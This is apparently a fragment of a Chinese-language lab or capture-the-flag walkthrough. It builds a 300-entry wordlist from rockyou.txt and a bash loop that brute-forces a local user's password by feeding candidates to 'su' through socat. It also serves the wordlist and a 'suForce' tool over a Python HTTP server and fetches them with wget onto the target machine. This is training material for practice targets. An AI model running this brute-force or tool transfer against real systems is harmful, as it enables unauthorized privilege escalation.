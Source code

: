```
head -300 /usr/share/wordlists/rockyou.txt > 300.txt
```

![image-20250329163444207](./assets/image-20250329163444207.png)



### 写脚本

```
#!/bin/bash

for i in `cat 300.txt`
do
        echo "$i"
        (sleep 0.1;echo "$i")|./socat - EXEC:'bash -c "su -c id"',pty

done
```

![image-20250329163543869](./assets/image-20250329163543869.png)



### 上传靶机

```
python -m http.server
wget 192.168.1.3:8000/300.txt -O 300.txt
wget 192.168.1.3:8000/suForce -O suForce
chmod +x suForce
```

![image-20250329163615806](./assets/image-20250329163615806.png)
